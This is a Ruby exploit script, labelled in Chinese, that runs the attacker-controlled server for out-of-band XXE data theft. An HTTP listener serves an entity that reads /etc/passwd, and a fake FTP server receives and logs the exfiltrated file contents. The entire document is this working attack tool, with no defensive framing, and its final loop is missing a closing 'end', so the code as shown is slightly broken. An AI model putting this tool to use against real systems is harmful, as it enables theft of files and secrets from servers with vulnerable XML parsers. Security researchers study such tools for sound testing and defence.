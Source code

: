 ruby利用脚本：

```
require 'socket'

ftp_server = TCPServer.new 2121
http_server = TCPServer.new 8088

log = File.open( "xxe-ftp.log", "a")

payload = '<!ENTITY % asd SYSTEM "file:///etc/passwd">'

Thread.start do
loop do
  Thread.start(http_server.accept) do |http_client|
    puts "HTTP. New client connected" 
    loop {
        req = http_client.gets()
        break if req.nil?
        if req.start_with? "GET"
            http_client.puts("HTTP/1.1 200 OK\r\nContent-length: #{payload.length}\r\n\r\n#{payload}")  
        end
        puts req
    }  
    puts "HTTP. Connection closed" 
  end
end

end

Thread.start do
loop do
  Thread.start(ftp_server.accept) do |ftp_client|
    puts "FTP. New client connected"
    ftp_client.puts("220 xxe-ftp-server")
    loop {
        req = ftp_client.gets()
        break if req.nil?
        puts "< "+req
        log.write "get req: #{req.inspect}\n"

        if req.include? "LIST"
            ftp_client.puts("drwxrwxrwx 1 owner group          1 Feb 21 04:37 test")
            ftp_client.puts("150 Opening BINARY mode data connection for /bin/ls")
            ftp_client.puts("226 Transfer complete.")
        elsif req.include? "USER"
            ftp_client.puts("331 password please - version check")
        elsif req.include? "PORT"
            puts "! PORT received"
            puts "> 200 PORT command ok"
            ftp_client.puts("200 PORT command ok")
        else
            puts "> 230 more data please!"
            ftp_client.puts("230 more data please!")
        end
    }
    puts "FTP. Connection closed" 
  end
end
end

loop do
    sleep(10000)
```